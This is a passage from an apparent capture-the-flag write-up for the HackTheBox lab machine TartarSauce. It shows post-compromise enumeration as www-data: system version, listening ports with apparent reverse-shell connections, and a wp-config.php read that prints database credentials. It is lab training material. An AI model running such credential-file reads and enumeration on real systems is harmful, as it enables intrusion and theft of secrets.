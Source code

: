 ## Enumeration as "www-data"

Let's check the system version details and listening ports:

```
www-data@TartarSauce:/var/www$ uname -a; cat /etc/*-release; netstat -antp         
uname -a; cat /etc/*-release; netstat -antp
Linux TartarSauce 4.15.0-041500-generic #201802011154 SMP Thu Feb 1 12:05:23 UTC 2018 i686 athlon i686 GNU/Linux
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
NAME="Ubuntu"
VERSION="16.04.4 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.4 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 10.10.10.88:80          10.10.14.6:53600        ESTABLISHED -               
tcp        0      0 10.10.10.88:80          10.10.14.6:53608        ESTABLISHED -               
tcp       22      0 10.10.10.88:44970       10.10.14.6:443          CLOSE_WAIT  5101/sh         
tcp        0    857 10.10.10.88:44982       10.10.14.6:443          ESTABLISHED 5245/sh    
```

There is a mysql database service running locally on port 3306. Let's see if we can find the creds for it. Looking in the /var/www/html/webservices/wp directory, we find the wp-config.php file which contains a set of database creds in it.

```
www-data@TartarSauce:/var/www/html/webservices/wp$ sed '/^\//d;/^[[:space:]]\*/d;/^[[:space:]]*$/d' wp-config.php
<d '/^\//d;/^[[:space:]]\*/d;/^[[:space:]]*$/d' wp-config.php                
<?php
define('DB_NAME', 'wp');
define('DB_USER', 'wpuser');
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
define('DB_HOST', 'localhost');
define('DB_CHARSET', 'utf8');
define('DB_COLLATE', '');
define('AUTH_KEY',         'put your unique phrase here');
define('SECURE_AUTH_KEY',  'put your unique phrase here');
define('LOGGED_IN_KEY',    'put your unique phrase here');
define('NONCE_KEY',        'put your unique phrase here');
define('AUTH_SALT',        'put your unique phrase here');
define('SECURE_AUTH_SALT', 'put your unique phrase here');
define('LOGGED_IN_SALT',   'put your unique phrase here');
define('NONCE_SALT',       'put your unique phrase here');
$table_prefix  = 'wp_';
define('WP_DEBUG', false);
define('WP_HOME', 'http://tartarsauce.htb/webservices/wp');
define('WP_SITEURL', 'http://tartarsauce.htb/webservices/wp');
if ( !defined('ABSPATH') )
        define('ABSPATH', dirname(__FILE__) . '/');
```
